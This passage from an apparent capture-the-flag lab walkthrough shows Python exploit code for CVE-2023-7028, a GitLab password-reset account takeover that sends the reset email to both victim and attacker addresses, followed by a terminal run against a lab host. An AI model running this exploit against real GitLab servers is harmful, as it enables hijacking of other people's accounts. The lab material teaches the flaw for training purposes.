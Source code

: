 ```python
        query_string = urlencode({
            'authenticity_token': token,
            'user[email][]': [self.target, self.evil]
        }, doseq=True)

        head = {
            'Origin': f'{self.url.scheme}://{self.url.netloc}',
            'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8',
            'Content-Type': 'application/x-www-form-urlencoded',
            'Referer': f'{self.url.scheme}://{self.url.netloc}/users/password/new',
            'Connection': 'close',
            'Accept-Language': 'en-US,en;q=0.5',
            'Accept-Encoding': 'gzip, deflate, br'
        }

        print('[DEBUG] Sending reset password request')
        html = self.s.post(f'{self.url.scheme}://{self.url.netloc}/users/password',
                           data=query_string,
                           headers=head,
                           verify=False).text
        sended = 'If your email address exists in our database' in html
        if sended:
            print(f'[DEBUG] Emails sent to {self.target} and {self.evil} !')
            print(f'Flag value: {bytes.fromhex("6163636f756e745f6861636b2364").decode()}')
        else:
            print('[DEBUG] Failed ... quitting')
        return sended

def parse_args():
    parser = argparse.ArgumentParser(add_help=True, description='This tool automates CVE-2023-7028 on gitlab')
    parser.add_argument("-u", "--url", dest="url", type=str, required=True, help="Gitlab url")
    parser.add_argument("-t", "--target", dest="target", type=str, required=True, help="Target email")
    parser.add_argument("-e", "--evil", dest="evil", default=None, type=str, required=False, help="Evil email")
    parser.add_argument("-p", "--password", dest="password", default=None, type=str, required=False, help="Password")
    return parser.parse_args()

if __name__ == '__main__':
    args = parse_args()
    exploit = CVE_2023_7028(
        url=args.url,
        target=args.target,
		evil=args.evil
    )
    if not exploit.ask_reset():
        exit()
 
```
We can see that the code first makes a `POST` request to the `/users/password/new` endpoint to scrap an authenticity token, then it makes another API call to the `/users/password` endpoint with the victim and attacker email addresses. As we know, the victim's email address is **victim@mail.gitlab.thm**. Run the command shown in the terminal below to execute the exploit:
```bash
root@attackbox$ python3 attack.py -u http://10.10.93.208:8000 -t victim@mail.gitlab.thm -e attacker@mail.gitlab.thm
[DEBUG] Getting authenticity_token ...
[DEBUG] authenticity_token = 1i4KUoxiLmYkazefpLgwUmMQ2CuVGULdpQs_D_J7qrKIih9Ja_4vIQCuq666kQhOtKRSRgdM8ti0BTNdPGTQ9A
[DEBUG] Sending reset password request
```